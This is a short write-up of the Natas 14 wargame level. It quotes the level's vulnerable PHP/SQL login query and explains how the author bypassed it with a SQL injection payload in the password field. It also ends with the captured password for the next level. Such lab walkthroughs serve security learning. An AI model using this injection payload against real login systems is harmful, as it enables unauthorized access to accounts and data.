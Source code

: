# natas 14

```sql
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```

Realising that this was a SQL injection exploit, I of course went to the `OR 1=1 -- `  idea *{a very well known SQL injection, most it exploits the fact the some strings are not well protected and using some knowledge of SQL you can essentially make bypass checking and just evaluate true.}*, but that kind of just hang the webpage.

I honestly don't quite understand why it hangs the webpage (probably because it never finish executing since you're doing comments), but I started to look for other solutions. The important one being the "debug" mode that seems to have been included *(this really isn't necessary, it just allows me to see what I'm doing better)*.

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
} 
```

Since the debug mode requires `$_GET`, it's really just a matter of POSTing it to `?debug=true` instead.

After fiddling with it a while, and noticing that it's not really sanitising its inputs, I came up with this that got me the code.

```php
username=natas15&password=" OR ""="
```

Since that would evaluate to the query as:

```sql
SELECT * from users where username="natas15" and password="" OR ""=""
```

*Technically the `username` doesn't really matter here, considering that `AND` executes before `OR`, meaning that it would be `false OR true` (evaluates to `true`) regardless of what I put into `username` or `password`.*


> AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J